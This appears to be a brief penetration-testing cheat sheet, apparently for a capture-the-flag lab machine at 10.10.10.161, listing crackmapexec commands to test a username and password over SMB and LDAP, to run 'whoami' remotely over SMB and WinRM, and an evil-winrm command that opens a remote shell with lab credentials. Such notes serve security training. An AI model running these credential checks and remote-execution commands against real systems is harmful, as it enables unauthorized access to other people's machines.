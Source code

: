 
**user & password verification**

### SMB

```sh
crackmapexec smb 10.10.10.161 -u 'username' -p 'password'
```

### LDAP

```sh
crackmapexec ldap 10.10.10.161 -u svc-alfresco -p 's3rvice'
```

**command execution**

### SMB
```sh
crackmapexec smb 10.10.10.161 -u svc-alfresco -p 's3rvice' -x "whoami"
```

### winrm 

```sh
crackmapexec winrm 10.10.10.161 -u svc-alfresco -p 's3rvice' -x "whoami"
```

**evil winrm**

```sh
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```
